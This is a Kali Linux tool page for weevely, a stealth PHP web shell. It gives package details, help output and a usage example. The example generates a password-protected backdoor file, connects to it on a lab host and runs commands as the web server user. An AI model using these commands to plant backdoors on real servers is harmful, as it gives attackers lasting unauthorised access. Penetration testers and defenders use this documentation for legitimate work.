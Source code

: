 ```yaml
---
Title: weevely
Homepage: https://github.com/epinna/weevely3/
Repository: https://salsa.debian.org/pkg-security-team/weevely
Architectures: all
Version: 4.0.1-1
Metapackages: kali-linux-default kali-linux-everything kali-linux-headless kali-linux-large kali-tools-post-exploitation kali-tools-web 
Icon: images/weevely-logo.svg
PackagesInfo: |
 ### weevely
 
  Weevely is a stealth PHP web shell that simulate telnet-like
  connection. It is an essential tool for web application post
  exploitation, and can be used as stealth backdoor or as a
  web shell to manage legit web accounts, even free hosted
  ones.
 
 **Installed size:** `890 KB`  
 **How to install:** `sudo apt install weevely`  
 
 {{< spoiler "Dependencies:" >}}
 * python3
 * python3-dateutil
 * python3-mako
 * python3-prettytable
 * python3-socks
 * python3-yaml
 {{< /spoiler >}}
 
 ##### weevely
 
 Weaponized web shell
 
 ```
 root@kali:~# weevely -h
 usage: weevely [-h] {terminal,session,generate} ...
 
 positional arguments:
   {terminal,session,generate}
     terminal            Run terminal or command on the target
     session             Recover an existing session
     generate            Generate new agent
 
 options:
   -h, --help            show this help message and exit
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## weevely Usage Example

Generate a PHP backdoor (`generate`) protected with the given password (`s3cr3t`).

```
root@kali:~# weevely generate s3cr3t
[generate.php] Backdoor file 'weevely.php' created with password 's3cr3t'
root@kali:~# weevely http://192.168.1.202/weevely.php s3cr3t
      ________                     __
     |  |  |  |----.----.-.--.----'  |--.--.
     |  |  |  | -__| -__| |  | -__|  |  |  |
     |________|____|____|___/|____|__|___  | v1.1
                                     |_____|
              Stealth tiny web shell

[+] Browse filesystem, execute commands or list available modules with ':help'
[+] Current session: 'sessions/192.168.1.202/weevely.session'

www-data@kali:/var/www $ uname
Linux
www-data@kali:/var/www $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
